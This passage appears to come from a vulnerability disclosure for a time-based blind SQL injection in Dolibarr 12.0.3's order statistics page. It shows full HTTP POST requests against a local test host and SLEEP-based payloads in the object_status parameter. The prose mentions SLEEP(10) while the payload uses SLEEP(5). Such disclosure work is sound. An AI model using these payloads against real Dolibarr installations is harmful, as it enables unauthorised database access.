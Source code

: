 ```
POST /projects/dolibarr/12.0.3/htdocs/commande/stats/index.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 41
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/projects/dolibarr/12.0.3/htdocs/commande/stats/index.php
Upgrade-Insecure-Requests: 1
Cookie: DOLSESSID_6d0e1ecfaad79948851cc2a04d382d2e=1e1f36c1cb94ad7d609ccc23b87a8ec7

object_status=IF(2<1, SLEEP(5), SLEEP(0))
```

![alt text](../captures/c18_1.png "Figure 2: SQLi identification 1")

For the second payload, 0 being less than 1, the `SLEEP(10)` is executed causing a minimum delay of 10 seconds. I indicate a "minimum" delay because if the payload is injected several times, it can lead to multiply the delay by n.

Payload 2:
```sql
IF(0<1, SLEEP(5), SLEEP(0))
```

Request:
```
POST /projects/dolibarr/12.0.3/htdocs/commande/stats/index.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 41
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/projects/dolibarr/12.0.3/htdocs/commande/stats/index.php
Upgrade-Insecure-Requests: 1
Cookie: DOLSESSID_6d0e1ecfaad79948851cc2a04d382d2e=1e1f36c1cb94ad7d609ccc23b87a8ec7
```